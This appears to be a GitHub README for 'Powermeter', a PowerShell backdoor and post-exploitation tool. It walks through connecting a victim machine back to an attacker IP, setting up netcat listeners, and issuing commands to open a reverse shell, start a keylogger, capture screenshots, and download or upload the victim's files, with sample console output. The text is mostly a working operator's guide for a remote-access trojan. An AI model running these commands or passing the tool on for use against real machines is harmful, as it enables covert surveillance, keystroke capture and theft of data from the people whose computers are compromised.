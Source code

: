 # Powermeter
Powermeter is a basic powershell based backdoor/post exploit tool. Main functionalities are shown below. You can also check the video at the bottom of the page.
Note: It is highly recommended to watch the video at 1080p due to low quality of recording. It will be fixed soon :=)

To run this program you need to solve execution-policy problem on your system.

## How to run?
![pm1](https://github.com/mfcekirdek/Powermeter/blob/master/pm1.png "pm1")

	#Import powermeter functions
	>> PS C:\Users\decoder\Desktop> . .\powermeter.ps1
	
	#Start powermeter.
	#When this command is invoked, powermeter will establish a TCP connection to $SHOST:$SPORT (in this case 192.168.214.1:9190). After that, powermeter remote user interface will be ready to take commands and attacker will be able to use powermeter via this tcp connection.
	#$SPORT should be opened at $SHOST machine (in other words, attacker machine).'nc -lvp <SPORT>' command can do the trick. The main connection between powermeter and attacker will be established via this port. Attacker send commands to powermeter from this port. 
	#$FLPORT will be used for any job which requires file transfer (those are download,upload,screencap and keylogger threads). For example, if you want to download a from victim machine, you need to provide a listener $FLPORT at $SHOST machine like this: 'nc -lvp <FLPORT> > downloadedFile'. After that you can call the download function from powermeter shell like this: 'download C:\Users\decoder\Desktop\cozbeni.zip'
	>> PS C:\Users\decoder\Desktop> Start-Powermeter -SHOST 192.168.214.1 -SPORT 9190 -FLPORT 9192
	
	Parameters:
	SHOST - attacker machine's IP.
	SPORT - an open attacker machine port that waits for powermeter connection. #'nc -lvp <SPORT>' command can do the trick.
	FLPORT - attacker machine's file transfer port. This port should be opened at attacker's side to achieve jobs which includes downloading and uploading. (Screencapturing and keylogging are also inclusive because both of them use downloader threads. You may want to see the demo video to see how it works.)

## Commands

### In main module:

#### show options

Powermeter>show options

	 Command                			 Description
	 -------                			 -----------
	 get sysinfo            			 Get system information about victim machine
	 get username           			 Get username of victim machine
	 set FLPORT=<port>      			 Set file transfer port
	 rshell                 			 Open reverse shell module
	 start keylogger        			 Start keylogger thread
	 show jobs              			 Show all active threads
	 stop job -keylogger    			 Stop keylogger thread and download captured keystrokes from file port
	 stop job -reverseShell 			 Stop reverse shell session and thread
	 stop job -sendFile     			 Stop file downloading thread
	 stop job -receiveFile  			 Stop file uploading thread
	 stop job -all          			 Stop all active threads
	 screencap -screen      			 Capture screenshot of victim machine [WHOLE SCREEN] and download it
	 screencap -activeWindow			 Capture screenshot of victim machine [ACTIVE WINDOW] and download it
	 download <fileFromVictim>			 Download a file from victim machine.[<fileFromVictim>: An absolute file path in victim machine that the attacker downloads]
	 upload <fileToVictim>  			 Upload a file to victim machine.[<fileToVictim>: An absolute file path in victim machine to store file uploaded by attacker]
	 exit                   			 Exit the program
	 Important: File transfer port should be opened at attacker's side to achieve downloading,uploading files.


![pm2](https://github.com/mfcekirdek/Powermeter/blob/master/pm2.png "pm2")

#### get sysinfo

Powermeter>get sysinfo

	 Name                   		Value
	 -------                		--------
	 OS Version:            		Microsoft Windows 7 Enterprise 
	 Install Date:          		20171223133718.000000+180
	 Service Pack Version:            		1
	 OS Architecture:       		64-bit
	 Boot Device:           		\Device\HarddiskVolume1
	 Build Number:          		7601
	 Host Name:             		WIN-1D86SE11EIA
	 Internet Explorer Version:		8.0.7601.17514

![pm3](https://github.com/mfcekirdek/Powermeter/blob/master/pm3.png "pm3")

#### set FLPORT=\<PORT>

Powershell>set FLPORT=9192  
[+]FLPORT is set

![pm4](https://github.com/mfcekirdek/Powermeter/blob/master/pm4.png "pm4")

#### get username

Powermeter>get username
decoder

![pm5](https://github.com/mfcekirdek/Powermeter/blob/master/pm5.png "pm5")

#### rshell

[prerequisite]: 
On attacker side> nc -lvp 9191

Powermeter>rshell
Powermeter>reverse_shell>set LHOST=192.168.214.1
[+]LHOST is set
Powermeter>reverse_shell>set LPORT=9191
[+]LPORT is set
Powermeter>reverse_shell>run
Powermeter>reverse_shell>[+]TCP reverse shell

![pm6](https://github.com/mfcekirdek/Powermeter/blob/master/pm6.png "pm6")

![pm7](https://github.com/mfcekirdek/Powermeter/blob/master/pm7.png "pm7")

Other commands in reverse shell module:

Powermeter>reverse_shell>show options

	 Command                			 Description
	 -------                			 -----------
	 set LHOST=<IPv4>       			 Set local IP address
	 set LPORT=<port>       			 Set local port address
	 run                    			 Start reverse shell
	 back                   			 Exit from reverse shell module

![pm23](https://github.com/mfcekirdek/Powermeter/blob/master/pm23.png "pm23")

#### stop job -reverseShell (stop job -rs)

Powermeter>stop job -reverseShell
[+]ReverseShellJob is terminated..

![pm8](https://github.com/mfcekirdek/Powermeter/blob/master/pm8.png "pm8")

#### show jobs

Powermeter>show jobs
[+]Active jobs:

JobStateInfo  : Running
Finished      : System.Threading.ManualResetEvent
InstanceId    : 50fae208-73d2-4ea0-8f91-0c37597c918b
Id            : 5
Name          : ReverseShellJob
ChildJobs     : {Job6}
Output        : {}
Error         : {}
Progress      : {}
Verbose       : {}
Debug         : {}
Warning       : {}
State         : Running

![pm9](https://github.com/mfcekirdek/Powermeter/blob/master/pm9.png "pm9")

#### stop job -all

Powermeter>stop job -all
[+]ReverseShellJob is terminated..
[+]ReceiveFileJob is terminated..

![pm10](https://github.com/mfcekirdek/Powermeter/blob/master/pm10.png "pm10")

#### screencap -screen

[prerequisite]: 
On attacker side> nc -lvp 9192 > screenshot.png

Powermeter>screencap -screen
[+]Screenshot saved..

![pm12](https://github.com/mfcekirdek/Powermeter/blob/master/pm12.png "pm12")

![pm13](https://github.com/mfcekirdek/Powermeter/blob/master/pm13.png "pm13")

#### screencap -activeWindow

[prerequisite]: 
On attacker side> nc -lvp 9192 > screenshotActiveWindow.png

Powermeter>screencap -activeWindow
[+]Screenshot is saving..

![pm14](https://github.com/mfcekirdek/Powermeter/blob/master/pm2.png "pm14")

![pm24](https://github.com/mfcekirdek/Powermeter/blob/master/pm2.png "pm24")

#### start keylogger & stop job -keylogger

[prerequisite]: 
On attacker side> nc -lvp 9192 > log.txt

Powermeter>start keylogger
[+]KeyLogger is starting..
Powermeter>stop job -keylogger
[+]Keylogger is terminated..

![pm15](https://github.com/mfcekirdek/Powermeter/blob/master/pm15.png "pm15")

![pm19](https://github.com/mfcekirdek/Powermeter/blob/master/pm19.png "pm19")

#### download <file>

[prerequisite]: 
On attacker side> nc -lvp 9192 > downloadedFile

Powermeter>download C:\Users\decoder\Desktop\cozbeni.zip
[+]File is downloading..

![pm18](https://github.com/mfcekirdek/Powermeter/blob/master/pm18.png "pm18")

![pm25](https://github.com/mfcekirdek/Powermeter/blob/master/pm25.png "pm25")

#### upload <file>

[prerequisite]: 
On attacker side> nc -lvp 9192 \< uploadedFile

Powermeter>upload C:\Users\decoder\Desktop\img.jpg
[+]File is uploading..

![pm20](https://github.com/mfcekirdek/Powermeter/blob/master/pm20.png "pm20")

![pm22](https://github.com/mfcekirdek/Powermeter/blob/master/pm22.png "pm22")


A quick demo video
=============

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/0D49nX_bD_8/0.jpg)](https://www.youtube.com/watch?v=0D49nX_bD_8)

